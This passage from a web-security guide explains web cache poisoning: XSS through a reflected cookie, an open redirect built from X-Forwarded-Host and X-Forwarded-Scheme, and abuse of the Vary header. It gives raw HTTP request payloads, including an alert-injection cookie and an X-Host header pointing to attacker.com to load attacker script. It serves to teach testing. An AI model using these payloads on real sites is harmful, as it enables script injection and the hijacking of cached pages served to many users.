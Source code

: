 Cookies could also be reflected on the response of a page. If you can abuse it to cause an XSS for example, you could be able to exploit XSS in several clients that load the malicious cache response.

```markup
GET / HTTP/1.1
Host: vulnerable.com
Cookie: session=VftzO7ZtiBj5zNLRAuFpXpSQLjS4lBmU; fehost=asd"%2balert(1)%2b"
```

Note that if the vulnerable cookie is very used by the users, regular requests will be cleaning the cache.

### Using multiple headers to exploit web cache poisoning vulnerabilities <a href="#using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities" id="using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities"></a>

Sometimes you will need to **exploit several unkeyed inputs** to be able to abuse a cache. For example, you may find an **Open redirect** if you set `X-Forwarded-Host` to a domain controlled by you and `X-Forwarded-Scheme` to `http`.**If** the **server** is **forwarding** all the **HTTP** requests **to HTTPS** and using the header `X-Forwarded-Scheme` as the domain name for the redirect. You can control where the page is pointed by the redirect.

```markup
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: ac8e1f8f1fb1f8cb80586c1d01d500d3.web-security-academy.net/
X-Forwarded-Scheme: http
```

### Exploiting with limited `Vary`header

If you found that the **`X-Host`** header is being used as **domain name to load a JS resource** but the **`Vary`** header in the response is indicating **`User-Agent`**. Then, you need to find a way to exfiltrate the User-Agent of the victim and poison the cache using that user agent:

```markup
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
```

### Exploiting HTTP Cache Poisoning by abusing HTTP Request Smuggling

Learn here about how to perform [Cache Poisoning attacks by abusing HTTP Request Smuggling](http-request-smuggling/#using-http-request-smuggling-to-perform-web-cache-poisoning).

### Automated testing for Web Cache Poisoning

The [Web Cache Vulnerability Scanner](https://github.com/Hackmanit/Web-Cache-Vulnerability-Scanner) can be used to automatically test for web cache poisoning. It supports many different techniques and is highly customizable.
